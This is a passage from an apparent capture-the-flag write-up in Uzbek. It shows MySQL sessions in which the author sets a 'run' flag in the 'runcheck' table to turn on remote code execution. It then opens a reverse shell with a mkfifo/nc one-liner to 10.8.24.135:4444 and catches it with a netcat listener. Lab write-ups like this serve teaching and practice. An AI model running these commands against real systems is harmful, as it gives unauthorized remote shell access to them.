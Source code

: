 **runornot** databaseni belgiladik endi tablelar ro'yxatini ko'ramiz.

```
MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.200 sec)
```

Table tarkibi:

```
MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.320 sec)
```

RCE o'chirilgandi endi uni yoqamiz:

```
MySQL [runornot]> UPDATE runcheck SET run = 1;
Query OK, 1 row affected (0.208 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    1 |
+------+
1 row in set (0.188 sec)
```

/whatever qismini tekshiramiz.

![]()

Ishladi!



Reverse shell ochamiz o'zimizga:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.24.135 4444 >/tmp/f
```

Reverse shellni tutish uchun NetCatdan foydalanamiz:

```
nc -nvlp 4444
```
